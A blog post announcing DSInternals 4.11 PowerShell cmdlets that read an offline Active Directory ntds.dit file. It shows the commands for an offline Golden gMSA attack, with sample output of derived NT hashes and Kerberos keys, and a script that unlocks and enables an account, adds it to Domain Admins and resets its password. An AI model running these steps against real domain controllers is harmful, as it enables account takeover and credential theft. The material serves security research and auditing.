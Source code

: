 ```yaml
---
ref: dsinternals-v411
title: New Offline Capabilities in DSInternals 4.11
date: '2023-10-01T00:00:00+00:00'
layout: post
lang: en
image: /assets/images/addb-serviceaccount.png
permalink: /en/dsinternals-v4.11/
---
```


## Introduction

The recently released [DSInternals PowerShell Module](https://github.com/MichaelGrafnetter/DSInternals) contains two new cmdlets for offline **ntds.dit** file access, [Get-ADDBServiceAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADDBServiceAccount.md#get-addbserviceaccount) and [Unlock-ADDBAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Unlock-ADDBAccount.md#unlock-addbaccount). This article will guide you through the newly added capabilities.

## Golden gMSA Attack with Time Shifting

The [Get-ADDBServiceAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADDBServiceAccount.md#get-addbserviceaccount) cmdlet reads all [Group Managed Service Accounts (gMSAs)](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) from an Active Directory (AD) database backup (the **ntds.dit** file) first, then it combines them with [KDS Root Keys](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/create-the-key-distribution-services-kds-root-key) and finally calculates the managed passwords and their hashes. In other words, this cmdlet performs a fully offline [Golden gMSA Attack](https://www.semperis.com/blog/golden-gmsa-attack/), against which most companies do not [protect themselves](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/recover-from-golden-gmsa-attack).

Usage of this cmdlet is pretty straightforward:

```powershell
Get-ADDBServiceAccount -DatabasePath '.\ADBackup\ntds.dit'
```

Here is a sample output of this cmdlet:

```yaml
DistinguishedName: CN=svc_adfs,CN=Managed Service Accounts,DC=contoso,DC=com
Sid: S-1-5-21-2468531440-3719951020-3687476655-1109
Guid: 53c845f7-d9cd-471b-a364-e733641dcc86
SamAccountName: svc_adfs$
Description: ADFS Service Account
Enabled: True
Deleted: False
UserAccountControl: WorkstationAccount
SupportedEncryptionTypes: RC4_HMAC, AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
ServicePrincipalName: {http/login.contoso.com, host/login.contoso.com}
WhenCreated: 9/9/2023 5:02:05 PM
PasswordLastSet: 9/9/2023 5:02:06 PM
ManagedPasswordInterval: 30
ManagedPasswordId: RootKey=7dc95c96-fa85-183a-dff5-f70696bf0b11, Cycle=9/9/2023 10:00:00 AM (L0=361, L1=26, L2=24)
ManagedPasswordPreviousId:
KDS Derived Secrets
  NTHash: 0b5fbfb646dd7bce4f160ad69edb86ba
  Kerberos Keys
    AES256_CTS_HMAC_SHA1_96
      Key: 5dcc418cd0a30453b267e6e5b158be4b4d80d23fd72a6ae4d5bd07f023517117
      Iterations: 4096
    AES128_CTS_HMAC_SHA1_96
      Key: 8e1e66438a15d764ae2242eefd15e09a
      Iterations: 4096
```

Note that the `KDS Derived Secrets` section was calculated by the cmdlet.

As a result, the Golden gMSA attack provides a stepping stone to some other nasty online attacks against the NTLM and Kerberos authentication protocols, including Pass-the-Hash, Pass-the-Key, Overpass-the-Hash, and Silver Ticket attacks.

## Offline User Account Unlock

The addition of the [Unlock-ADDBAccount](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Unlock-ADDBAccount.md#unlock-addbaccount) cmdlet completes the holistic capability of the DSInternals PowerShell module to perform offline user account takeovers. With access to a hard drive of a Domain Controller (DC), it is now possible to pick any pre-existing user account, even a disabled one, and to simply [reset its password](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Set-ADDBAccountPassword.md#set-addbaccountpassword), [enable it](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Enable-ADDBAccount.md#enable-addbaccount), [unlock it](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Unlock-ADDBAccount.md#unlock-addbaccount), and [add it to the Domain Admins group](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Set-ADDBPrimaryGroup.md#set-addbprimarygroup). Thanks to the common `-SkipMetaUpdate` parameter, it is even possible to either keep the changes local to the target DC or to replicate them to all the other DCs.

Here is an example of an end-to-end approach:

```powershell
Unlock-ADDBAccount -SamAccountName john -DatabasePath 'D:\Windows\NTDS\ntds.dit'
Enable-ADDBAccount -SamAccountName john -DatabasePath 'D:\Windows\NTDS\ntds.dit'
Set-ADDBPrimaryGroup -SamAccountName john -PrimaryGroupId 512 -DatabasePath 'D:\Windows\NTDS\ntds.dit'

$pass = Read-Host -AsSecureString -Prompt 'Provide a new password for user john'
$key = Get-BootKey -OfflineHiveFilePath 'D:\Windows\System32\config\SYSTEM'
Set-ADDBAccountPassword -SamAccountName john `
                        -NewPassword $pass `
                        -DatabasePath 'D:\Windows\NTDS\ntds.dit' `
                        -BootKey $key
```

## Disclaimer

Remember that features exposed through these tools are not supported by Microsoft. Improper use might cause irreversible damage to domain controllers or negatively impact domain security.
